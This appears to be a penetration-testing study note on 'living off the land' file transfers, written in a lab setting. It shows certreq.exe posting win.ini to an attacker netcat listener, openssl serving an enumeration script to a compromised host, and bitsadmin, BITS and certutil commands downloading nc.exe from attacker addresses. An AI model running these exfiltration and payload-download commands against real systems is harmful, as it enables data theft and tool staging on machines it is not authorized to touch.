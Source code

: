 ```yaml
---
layout: default
---
```


# Living off The Land
- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

## Using the LOLBAS and GTFOBins Project
**Upload win.ini to our Target**
```bash
> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

**File Received in our Netcat Session**
```bash
$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running certreq.exe, the version you are using may not contain the -Post parameter. You can download an updated version here and try again.

## GTFOBins
**Create Certificate in our Pwnbox**
```bash
$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

**Stand up the Server in our Pwnbox**
```bash
$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

**Download File from the Compromised Machine**
```bash
$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools
### Bitsadmin Download function
**File Download with Bitsadmin**
```bash
PS > bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.
**Download**
```bash
PS > Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Certutil
Casey Smith (@subTee) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto wget for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

**Download a File with Certutil**
```
> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
> certutil.exe -urlcache -f http://10.10.10.32:8000/nc.exe nc.exe
```